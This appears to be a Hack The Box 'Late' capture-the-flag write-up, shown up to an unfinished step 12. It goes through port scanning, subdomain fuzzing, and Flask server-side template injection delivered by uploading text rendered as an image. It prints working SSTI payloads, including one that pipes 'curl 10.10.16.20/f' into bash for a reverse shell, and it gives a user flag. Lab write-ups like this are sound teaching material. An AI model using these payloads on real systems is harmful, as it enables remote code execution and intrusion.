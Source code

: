 # Late 
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5f238aa8-4222-42c6-8b9f-a9a9ed488089)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.156 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-16 00:03 PDT
Nmap scan report for late.htb (10.10.11.156)
Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
|_  256 28394698171e461a1ea1ab3b9a577048 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.66 seconds
```

1. Based from the nmap results, the machine runs a web application service and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9fb306c7-1739-4dc5-80cc-b8f9cbad4ac2)


2. Scrolling down, there's another link which redirects to another subdommain --> images.late.htb.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f2b77347-64f0-4ef0-8181-45eb4a5ddff1)


> images.late.htb

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/007a61cf-d04c-4d43-ab18-d7f339278b24)


> Running wfuzz to check another subdomain --> found only images.late.htb.

```
wfuzz -u "http://late.htb" -H "Host: FUZZ.late.htb" -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 9461
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cf0e6f3e-68b4-4bc7-9c3b-ee01891249e8)


3. Interesting, since it said that it built with Flask, hence it could related to SSTI vuln.
4. Let's check that by uploading a file which has regex operation such --> {{ 7*7 }}.
5. I used [this](https://smallseotools.com/text-to-image/) online tool to convert text to image with ease.
6. After uploaded the image, automatically we got this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/517934d4-4034-4c13-b418-75f11326dab7)


```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ cat results.txt
<p>49
</p>
```

7. Great! This should be our foothold.
8. Let's try to run simple SSTI payload to check whether there is filter.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf026a13-e379-4b42-925b-5d8a5d5c5198)


9. To fix this I tried to change the font to monospace, background color to black, font color to white, and zoom level max.

```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ cat results.txt
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

</p>
```

10. Nice! Even the basic payload is executed, let's send our reverse shell payload.

> PAYLOAD

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/196cd6f7-d671-42df-b3fc-065922cfa3ee)

> What to send

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.16.20/f | bash').read()}}
```

#### NOTES:

```
Change "bash" to "sh" won't work. 
```

11. So what to do now is, convert the SSTI payload to image file, then set a listener on port 1337, lastly set python server (because we want to curl a file from our local machine). Send the image.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b1965299-eae7-4c51-a421-787e0890eb55)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c3168416-af54-4364-bf99-f43101944c80)



## USER FLAG

```
abb776efaca5d2c498c0340369be1cb1
```

12.


